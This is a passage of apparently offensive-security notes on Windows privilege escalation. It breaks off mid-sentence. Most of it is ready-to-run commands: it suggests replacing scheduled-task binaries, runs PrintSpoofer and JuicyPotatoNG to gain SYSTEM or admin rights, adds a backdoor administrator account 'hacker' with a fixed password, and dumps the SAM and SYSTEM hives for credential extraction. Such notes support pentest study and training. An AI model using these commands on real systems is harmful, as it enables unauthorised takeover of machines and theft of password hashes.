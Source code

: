 ```powershell
schtasks /query /fo LIST /v
```

Eventually we can use `findstr` if we want to search for something specific. After that we can replace the program with a simple .exe that creates a new admin user.

## Windows Services
---

We can watch status of Windows services with [Watch-Command](https://github.com/markwragg/PowerShell-Watch/tree/master)

## Exploits
---

We can use multiple exploits for Windows, depending on the privileges we got on the system. An example could be [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe). We could serve it on the victim machine. If we have `SeImpersonatePrivilege` privilege displayable with `whoami /priv` we could gain Admin privileges with

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

If we have `SeImpersonatePrivilege` we can use also Juicy-Potato to create an admin user (hacker:P@ssw0rd) on the system:
- https://pentest.party/notes/windows/privilege-impersonate
- https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1

There is a wide range of this exploits. We can use the whole [Potato Family](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) and perform a Privilege Escalation. A real-life scenario of a Windows privilege escaltion could be exploiting the [`SeBackupPrivilege`](https://juggernaut-sec.com/sebackupprivilege).

```powershell
.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"

.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "net localgroup administrators user /add"
```

## Extracting a Copy of the SAM and SYSTEM Files Using reg.exe
---

After having gained the Administrator access we cam dump SAM and SYSTEM using reg.exe:

```powershell
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

Once copied back on the Kali machine the two files we can dump them with
